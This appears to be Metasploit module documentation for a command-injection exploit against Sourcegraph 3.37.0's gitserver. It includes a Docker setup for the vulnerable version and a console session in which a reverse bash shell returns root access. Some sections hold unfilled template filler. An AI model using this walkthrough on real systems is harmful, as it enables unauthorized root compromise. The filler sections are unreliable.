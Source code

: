## Vulnerable Application

 lorem ip sum blah blah
 




## Verification Steps
3. Install the application
   1. Install and run it through docker
```
docker run \
  --publish 3178:3178 \
  --publish 7080:7080 \
  --publish 127.0.0.1:3370:3370 \
  --rm \
  --volume ~/.sourcegraph/config:/etc/sourcegraph \
  --volume ~/.sourcegraph/data:/var/opt/sourcegraph \
  sourcegraph/server:3.37.0
```
2. Configure a cloned repo, use a github access token


4. Start msfconsole
5. Do: `use [module path]`
6. Set the options
7. Do: `run`
8. You should get a shell.

## Options
List each option and how to use it.

### EXISTING_REPO

An existing cloned repo on the server. If none is specified, one will be automatically determined.

## Scenarios

### SourceGraph v3.37.0 running on Docker

```
msf6 exploit(linux/http/sourcegraph_gitserver_sshcmd) > show options

Module options (exploit/linux/http/sourcegraph_gitserver_sshcmd):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   EXISTING_REPO                   no        An existing, cloned repository
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         192.168.159.128  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          3178             yes       The target port (TCP)
   SRVHOST        0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT        8080             yes       The local port to listen on.
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI      /                yes       Base path
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/sourcegraph_gitserver_sshcmd) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Using automatically identified repository: github.com/zerosteiner/gh-sandbox
[*] Executing Unix Command target

id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```
